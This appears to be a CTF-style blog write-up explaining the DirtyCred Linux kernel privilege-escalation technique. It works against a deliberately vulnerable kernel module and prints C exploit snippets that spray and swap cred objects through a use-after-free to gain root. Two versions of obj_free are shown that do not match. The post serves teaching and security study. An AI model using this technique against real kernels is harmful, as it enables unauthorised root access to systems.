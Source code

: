 ```yaml
---
title: Linux Kernel Exploitation - DirtyCred
date: 2025-04-28
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain DirtyCred, a universal and data-only exploitation technique that allows us to escalate privileges without a write primitive. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/dirty-cred) beforehand.

## Analysis
The vulnerable LKM provides three commands: `CMD_ALLOC`, `CMD_READ`, and `CMD_FREE`. These commands are used to allocate, read from, and free objects defined as follows:
```c
#define OBJ_SIZE    0xc0

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` internally uses `kmem_cache_zalloc`. This means a dedicated cache is used for managing these objects:
```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}
```
Also, note that `kfree` is used instead of `kmem_cache_free` in `obj_free`. This is intentional, as we will use it later to free cred objects:
```c
static long obj_free(int id) {
    kfree(objs[id]);
    return 0;
}
```
The cache is created in `module_initialize`:
```c
static int __init module_initialize(void) {
    if (misc_register(&vuln_dev) != 0) {
        return -1;
    }
    obj_cachep = KMEM_CACHE(obj, 0);
    if (!obj_cachep) {
        return -1;
    }
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF. By performing cross-cache attack explained in the [previous post](https://r1ru.github.io/posts/1), we can overlap victim objects with arbitrary kernel objects. However, we only have a read primitive, so it is difficult to control RIP.
Therefore, we will instead take a data-only approach. In this post, I will explain DirtyCred — a data-only attack that does not require a write primitive.

## DirtyCred
The main idea of DirtyCred is to swap non-root credentials with root credentials. In this post, we target `struct cred`, which is allocated from a dedicated cache called `cred`. By performing cross-cache attack, we can overlap victim objects with cred objects. Since we can free victim cred objects (via `obj_free`), by spraying root cred objects, we can achieve root privilege.

## Exploitation
The initial steps are the same as in the [previous post](https://r1ru.github.io/posts/1/#exploitation). The difference is in the fourth step, where we allocate a large number of cred objects:
```c
char stack[NUM_CRED_SPRAY][0x1000];
for (int i = 0; i < NUM_CRED_SPRAY; i++) {
    assert(clone(try_read_flag, &stack[i][0xfff], CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND, NULL) != -1);
}
```
Here, we use `clone` with some flags to allocate cred objects with low noise. This technique was discovered by willsroot. See their [blog post](https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html) for more details.

`try_read_flag` is defined as follows. It waits for the atomice variable, `try` to be true, checks if it has root previleges, and then reads the flag:
```c
int try_read_flag(void *arg) {
    char flag[0x10] = {};
    int fd;

    while(atomic_load(&try) != true) {
        sleep(1);
    }

    if (geteuid() == 0) {
        fd = open("/dev/sdb", O_RDONLY);
        assert(fd != -1);
        assert(read(fd, flag, 0x10) != -1);
        printf("[+] Flag: %s\n", flag);
        atomic_store(&win, true);
        exit(0);
    } else {
        atomic_fetch_add(&num_failed, 1);
        exit(0);
    }   
}
```
Next, we locate the victim cred object and free it:
```c
int victim = -1;
struct cred cred = {};
for (int i = 0; i < num_sprary; i += objs_per_slab * 2) {
    for (int j = i; j < i + objs_per_slab; j++) {
        obj_read(j, (char *)&cred, sizeof(cred));
        if (cred.uid == getuid() && cred.euid == geteuid()) {
            victim = j;
            printf("[+] Freeing the victim object: id = %d\n", victim);
            obj_free(victim);
        }
    }
}
if (victim == -1) {
    puts("[-] Failed to locate the victim objects");
    exit(1);
}
```
Lastly, we spray root cred objects, which causes the victim cred object freed in the previous step to be swapped with a root cred object.
```c
for (int i = 0; i < NUM_ROOT_CRED_SPRAY; i++) {
    int pid = fork();
    if (pid == 0) {
        char *argv[] = {"/bin/su", NULL};
        execve(argv[0], argv, NULL);
    }
}
sleep(1);

puts("\n[*] Attempting");
atomic_store(&try, true);
```
By running this exploit, you can see the flag:
![win](/assets/img/posts/2025-04-29-3/win.png)

## References
1. Zhenpeng Lin, Yuhang Wu, and Xinyu Xing. 2022. DirtyCred: Escalating Privilege in Linux Kernel. In Proceedings of the 2022 ACM SIGSAC Conference on Computer and Communications Security (CCS '22). Association for Computing Machinery, New York, NY, USA, 1963–1976. https://doi.org/10.1145/3548606.3560585
2. willsroot. 2022. Reviving Exploits Against Cred Structs - Six Byte Cross Cache Overflow to Leakless Data-Oriented Kernel Pwnage. https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html